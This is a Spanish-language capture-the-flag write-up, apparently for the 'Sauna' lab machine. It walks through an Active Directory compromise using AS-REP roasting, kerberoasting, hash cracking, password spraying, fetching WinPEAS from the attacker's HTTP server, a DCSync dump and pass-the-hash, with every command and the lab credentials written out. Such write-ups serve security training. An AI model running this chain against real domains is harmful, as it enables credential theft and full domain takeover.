



Como de costumbre, comenzamos realizando un escaneo de puertos abiertos de la máquina objetivo.

``sudo nmap 10.10.10.175 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts``

Una vez conocemos los puertos abiertos podemos intuir que estamos ante un DC. No obstante, queremos conocer con exactitud qué servicios y versiones están corriendo en dichos puertos, por lo que lanzamos otro escaneo sobre estos puertos:

``nmap 10.10.10.175 -sCV -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49667,49673,49674,49677,49698 -oN target``

En este output ya empezamos a tener información de utilidad. Vamos a utilizar netexec para confirmar el dominio y conocer el nombre de la máquina.

``netexec smb 10.10.10.175``

La máquina se llama ``Sauna`` y el ``Dominio EGOTISTICAL-BANK``, por lo que podemos añadirlo al ``/etc/hosts``:

Vamos a comenzar echando un vistazo a la página web:

Si scrolleamos en el index, vemos:

Pero si vamos echamos un vistazo a ``/about.html``:

Es una referencia directa a nombres de usuario que parecen formar parte del equipo.

Tenemos un listado potencial de usuarios, por lo que nos los guardamos en ``users.txt``:

Una vez tenemos este listado de posibles usuarios, nos falta conocer qué formato/estructura/naming convention tienen a nivel de dominio para identificar/crear a los usuarios. Una herramienta muy buena para estos casos es ``anarchyusers``. 

https://github.com/urbanadventurer/username-anarchy

Esta herramienta nos permite hacer múltiples combinaciones. Si ejecutamos ``username-anarchy -l`` podemos visualizar (y con ejemplos) dichas combinaciones:

Le pasamos la lista de usuarios y las combinaciones a realizar.

``./username-anarchy --input-file users.txt --select-format first,firstlast,first.last,firstlast[8],first[4]last[4],firstl,f.last,flast,lfirst,l.first,lastf,last,last.f,last.first,FLast,first1,fl,fmlast,firstmiddlelast,fml,FL,FirstLast,First.Last,Last > anarchyusers.txt``

Esto nos genera un archivo de 88 líneas que son producto de las combinaciones entre nombre y apellido que nos ofrece (partiendo de 6 usuarios). Para que se entienda con un ejemplo, las combinaciones que nos ha realizado para el usuario "fergus smith", son:

Una vez tenemos las combinaciones en un listado más extenso (anarchyusers.txt), se lo pasamos a ``kerbrute`` con el parámetro ``userenum`` para que valide si son usuarios reales (o no) y qué estructura/combinación se utiliza a nivel de dominio para generar usuarios:

``kerbrute userenum --dc 10.10.10.175 -d EGOTISTICAL-BANK.LOCAL anarchyusers.txt``

Nos devuelve que ``fsmith`` es un usuario válido. No sólo hemos sacado un usuario válido, sino que ahora también conocemos ahora la forma que tiene el DC de generar usuarios: inicial del nombre+apellido.

Aunque no conozcamos la contraseña del usuario fsmith, podemos averiguar, gracias a la técnica ``asreproasting``, si dicho usuario no requiere autenticación previa de kerberos (``DontRequirePreAuth``), lo que nos proporcionaría un hash que, si conseguimos romper, nos dará la contraseña en texto claro del usuario en cuestión. 

Dado que sólo tenemos un usuario válido, modificamos nuestro users.txt:

``impacket-GetNPUsers -no-pass -usersfile users.txt EGOTISTICAL-BANK.LOCAL/ -output hashes.asreproast ``

Bingo. Tenemos el hash del usuario fsmith y nos lo hemos guardado en ``hashes.asreproast``. Ahora, para intentar romperlo, se lo pasamos a hashcat.

Antes de ello, vamos a averiguar el código interno que tiene hashcat para identificar este tipo de hashes (``krb5asrep$23$``), para ello:

``hashcat --help | grep -i "kerberos"``

Una vez sabemos el código interno de hashcat, 18200, lo lanzamos con rockyou como diccionario:

``hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force``

Tenemos credenciales válidas para el dominio -> ``fsmith``:``Thestrokes23``

Aunque todo apunta a ello, vamos a  validarlas con netexec:

``netexec smb 10.10.10.175 -u 'fsmith' -p 'Thestrokes23'``

En el output podemos ver ``[+]``, por lo que nos confirma que son credenciales válidas.

La pregunta ahora es: vale, tengo credenciales válidas, pero, ¿puedo conectarme con dichas credenciales? ¿Forma parte del grupo Remote Management Users el usuario que tenemos? Pues vamos a comprobarlo.

``netexec winrm 10.10.10.175 -u 'fsmith' -p 'Thestrokes23'``

Pwn3d! Genial, podemos conectarnos por winRM.

Antes de conectarnos con evil-winrm podemos seguir enumerando. Por ejemplo, si nos conectamos a través de ``RPC`` podemos listar usuarios (aunque también podríamos listarlos desde dentro si nos conectamos con evil-winrm):

``rpcclient -U 'fsmith%Thestrokes23' 10.10.10.175 -c enumdomusers > rpcusers.txt``

Tenemos usuarios del dominio, pero si quisiéramos tener un diccionario de usuarios válidos, primero tenemos que hacer un tratamiento a dichos datos. Nos quedaremos sólo con lo que está entre los primeros corchetes.

``cat rpcusers.txt | cut -d '[' -f2 | cut -d ']' -f1 > realusers.txt``

Nos conectamos por ``winRM`` como el usuario fsmith.

``evil-winrm -i 10.10.10.175 -u 'fsmith' -p 'Thestrokes23'``

Estamos dentro de la máquina víctima.

Recogemos la flag de usuario en ``C:\Users\FSmith\Desktop\user.txt``

# Privesc

Tenemos un listado de usuarios del dominio y unas credenciales válidas, por lo que vamos a probar ``kerberoasting``.

``impacket-GetUserSPNs -request -dc-ip 10.10.10.175 EGOTISTICAL-BANK.LOCAL/fsmith``

Parece que sí hay un usuario del que podremos sacar su hash (``HSmith``), pero ahora no podemos por el error que nos arroja: ``Clock skew too great.`` Esto significa que hay demasiada desincronización con el reloj del DC.

Para sincronizarlo, simplemente: ``sudo ntpdate IPdelDC``

``sudo ntpdate 10.10.10.175``

Repetimos.

``impacket-GetUserSPNs -request -dc-ip 10.10.10.175 EGOTISTICAL-BANK.LOCAL/fsmith``

Ahora sí. Tenemos el hash de HSmith. O bien nos copiamos su contenido, o bien repetimos el comando redirigiendo el output a un archivo.

Una vez lo tenemos, comprobamos a qué código interno pertenece en hashcat este tipo de hash (``krb5tgs$23$``)

``hashcat --help | grep -i "kerberos"``

Ahora que conocemos el código interno de ``hashcat``, se lo pasamos junto con ``rockyou`` como diccionario.

``hashcat -m 13100 hsmithtgs /usr/share/wordlists/rockyou.txt --force``

Anda, curiosamente es la misma contraeña que para Fsmith. Esto quiere decir que si hubiesemos hecho ``password spraying`` contra los usuarios del dominio, también podríamos haberla sacado:

``netexec smb 10.10.10.175 -u realusers.txt -p 'Thestrokes23' --continue-on-sucess``

Efectivamente, podríamos haberla sacado si hubiéramos hecho password spraying, pero hemos validado las nuevas credenciales -> ``hsmith``:``Thestrokes23``

Vamos a comprobar si este nuevo usuario forma parte de ``Remote Management Users`` para poder conectarnos con ``evil-winrm``.

``netexec winrm 10.10.10.175 -u 'hsmith' -p 'Thestrokes23'``

Pero no, tenemos ``[-]`` en el output de ``netexec``. Esto quiere decir que no podemos conectarnos a través de winRM con este usuario. No obstante, podríamos intentar otras formas de pivotar desde el usuario fsmith a hsmith.

Sin embargo, antes de seguir con este vector, vamos a explorar más a fondo la máquina víctima.

Vamos a compartir la herramienta ``WinPEAS`` con la máquina víctima. Podemos hacerlo de diferentes maneras. En esta ocasión, vamos a hacerlo a través de servidor http montado con python.

- Primero creamos carpeta temporal en máquina víctima:

``mkdir C:\temp``

Una vez creada la carpeta nos movemos a ella.

- Después, desde la máquina atacante, levantamos un servidor http en el directorio que tengamos winPEAS.
``python3 -m http.server 80``

- Acto seguido, desde la máquina víctima, realizamos la solicitud del recurso winPEASx64.exe, apuntando a nuestro servidor http, es decir, nuestra máquina atacante.

``iwr http://10.10.14.8/winPEASx64.exe -o winpeas.exe``

Una vez hemos compartido la herramienta, la ejecutamos:

``.\winpeas.exe``

Si echamos un vistazo a su output encontramos credenciales de AutoLogon:

``svc_loangmanager``:``Moneymakesthworldgoround!``

No obstante, dada la enumeración previa que hicimos de usuarios a través de RPC, sabemos que el usuario al que probablemente está haciendo referencia es ``svc_loanmgr``, el cual también aparece, más abajo, en el output de winpeas:

Teniendo estas posibles credenciales, las validamos con netexec.

``netexec smb 10.10.10.175 -u 'svc_loanmgr' -p 'Moneymakestheworldgoround!'``

Son credenciales válidas.
¿Formará parte el usuario ``svc_loanmgr`` del grupo Remote Management Users? Esto nos permitiría conectarnos con evil-winrm. Vamos a comprobarlo.

``netexec winrm 10.10.10.175 -u 'svc_loanmgr' -p 'Moneymakestheworldgoround!'``

Nos pone pwn3d!, por lo que sí podemos conectarnos.

``evil-winrm -i 10.10.10.175 -u 'svc_loanmgr' -p 'Moneymakestheworldgoround!'``

Si realizamos una enumeración desde dentro no vemos nada interesante, por lo que vamos a tirar de ``BloodHound``. Como el DC tiene un servicio DNS corriendo no es necesario que compartamos sharphound para enumerar.

``bloodhound-python -u 'svc_loanmgr' -p 'Moneymakestheworldgoround!' -d EGOTISTICAL-BANK.LOCAL -c all -ns 10.10.10.175``

Una vez tenemos la data en la máquina atacante:

- Levantamos neo4j

``sudo neo4j start``

- Levantamos BloodHound:

``bloodhound --no-sandbox &>/dev/null & disown``

- Introducimos nuestras credenciales de neo4j.

- Importamos desde la interfaz gráfica de BloodHound los .json previamente recolectados:

Una vez se ha subido  toda la data, buscamos a los usuario que tenemos pwneados en el buscador y los marcamos como owned:

Repetimos proceso para HSmith y svc_loanmgr.

Si exploramos un poco a través de BloodHound vemos algo interesante.

Si vemos la información del nodo de svc_loanmgr (node info) y vamos al apartado ``First Degree Object Control``, vemos:

El usuario svc_loanmgr tiene permisos de ``DCSync``. Es decir, que puede volcar todos los hashes NTLM de los usuarios del dominio.

Si hacemos click derecho -> Help, veremos más información al respecto:

Para explotar este ataque lo hacemos con ``impacket-secretsdump``.

``impacket-secretsdump EGOTISTICAL-BANK.LOCAL/'svc_loanmgr':'Moneymakestheworldgoround!'@'10.10.10.175'``

Vemos el hash NTLM de Administrator. Vamos a validarlo.

``netexec smb 10.10.10.175 -u 'Administrator' -H ':823452073d75b9d1cf70ebdf86c7f98e'``

Bingo. Tenemos pwn3d, por lo que podemos conectarnos como NtAuthority\System (``psexec``) o como administrator (``wmiexec``).

``impacket-psexec Administrator@10.10.10.175 -hashes ':823452073d75b9d1cf70ebdf86c7f98e'``

``impacket-wmiexec Administrator@10.10.10.175 -hashes ':823452073d75b9d1cf70ebdf86c7f98e'``

De cualquiera de las dos formas, podemos acceder a ``C:\Users\Administrator\Desktop\root``.txt y coger la flag de Administrador:

